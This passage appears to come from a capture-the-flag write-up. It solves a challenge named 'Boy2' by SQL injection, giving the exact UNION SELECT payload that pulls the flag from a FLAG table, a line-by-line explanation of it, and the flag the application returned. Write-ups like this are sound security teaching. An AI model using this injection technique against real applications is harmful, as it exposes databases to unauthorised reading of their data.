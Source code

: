 ### Exploitation Steps
1. **String termination**: Use a single quote (`'`) to close the `boy` string literal.
2. **UNION injection**: Append `UNION SELECT substr(FLAGtext,2,100) FROM FLAG` to extract the flag.
3. **Comment out** the rest of the query with `--`.

Final payload:
```
X' UNION SELECT substr(FLAGtext,2,100) FROM FLAG--
```

### Payload Explanation
- `X'`: Closes the original `WHERE boy = 'X'` string.
- `UNION SELECT ...`: Combines results from the `flag` table.
- `substr(FLAGtext,2,100)`: Skips the first character to bypass an initial filter or formatting.
- `--`: Comments out any trailing SQL.

### Flag

![Boy2](./assets/boy2.png)
After submitting the payload, the application returns:
```
SSMCTF{b-b-bb-b-oy:::;bob-b-oy;;duh!duh!duh!duh!}
```
---

## Stealing Treasure